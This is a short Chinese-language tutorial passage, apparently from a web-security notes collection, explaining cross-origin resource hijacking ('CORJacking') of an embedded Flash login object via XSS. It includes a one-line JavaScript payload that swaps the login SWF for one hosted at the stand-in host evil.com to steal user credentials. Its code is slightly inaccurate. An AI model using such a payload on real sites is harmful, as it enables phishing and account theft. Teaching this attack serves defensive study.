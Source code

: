 ## CORJacking跨域资源劫持

HTML5应用有各种不同的资源，例如Flash文件，Silverligh，视频，音频等，这些资源可以通过DOM访问和控制。<br>
如果页面存在XSS漏洞，那么攻击者可能通过跨域资源的劫持进行攻击 。<br>

#### 举例：<br>
下面的代码载入了一个swf文件，作为用户登录框，这里面我们可以实现一些加密的逻辑。
  
<object classid=“clsid:xxxxxxx-xxxx-xxxx-xxxxxx” id=“Login” width=“100%”height=“100%”  <br>
    codebase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab>     <br>
<param name=“movie”value=“Login.swf” />      <br>
<param name=“quality”value=“high” />        <br>
<embed src=“Login.swf”quality=“high” width=“50%” height=“50%”>      <br>
</object>   <br>

##### 当页面存在XSS漏洞时，攻击者可以利用如下脚本把swf文件替换为欺诈的虚假资源。

`document.getElementByName(‘Login’).item(0).src=‘http://evil.com/login.swf’; ` <br>
那么当用户在这样的登录框里输入自己的用户名和密码并登录时，他的帐号就已经被盗取了。
